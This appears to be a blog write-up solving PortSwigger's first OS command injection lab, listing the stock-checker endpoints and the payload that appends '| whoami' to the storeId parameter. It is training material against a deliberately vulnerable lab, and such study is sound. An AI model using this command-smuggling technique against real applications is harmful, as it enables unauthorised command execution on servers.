 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 1"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection,bscp]
categories: [PortSwigger]
---
```


# Lab 1 - OS Command Injection - Simple Case
><b>Lab Objective:</b>
<br/><br/>
This lab contains an OS command injection vulnerability in the product stock checker.
The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-simple">Port Swigger - Lab 1</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308204">Rana Khalil - Lab 1</a>
<br/>



### Solution
<hr/>

#### 1. Take note of all possible endpoint calls that accepts user input from the UI:

```
GET /product?productId=1
```
```
POST /product/stock 
body: productId=1&storeId=1
```

#### 2. Append | whoami to POST  /product/stock    storeId parameter

```
product=1&storeId = 1 | whoami
```
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/lab1/command_injection_lab_1_response.png)

<hr/>